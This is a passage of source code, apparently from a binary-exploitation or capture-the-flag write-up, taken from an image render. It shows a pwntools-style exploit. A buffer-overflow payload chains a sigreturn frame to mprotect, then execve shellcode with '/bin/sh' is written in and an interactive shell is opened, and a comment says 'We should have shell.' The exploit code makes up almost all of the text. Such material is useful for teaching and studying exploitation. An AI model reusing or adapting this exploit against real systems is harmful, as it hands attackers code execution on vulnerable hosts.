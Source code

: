 ```python
    mprot_payload = b"A" * 40
    mprot_payload += VULN
    mprot_payload += SYSCALL_RET
    mprot_payload += get_mprot_frame()

    f = open("./execve_shellcode", 'rb');
    shellcode = b"\x90\x90\x90\x90";
    shellcode += f.read();
    shellcode += b"A" * (40 - len(shellcode))
    shellcode += WHERE_WE_WRITE_AFTER_MPROT
    shellcode += b"A" * (0x4010f0 - u64(WHERE_WE_WRITE_AFTER_MPROT) - len(shellcode))
    shellcode += b"/bin/sh\x00"

    r.send(mprot_payload)
    r.recv(len(mprot_payload))
    r.send(b"A" * 15)
    r.recv(15)
    r.send(shellcode)

    # We should have shell, program will likely crash afterwards
    r.interactive()

```

![pwned](./img/pwned_9.png)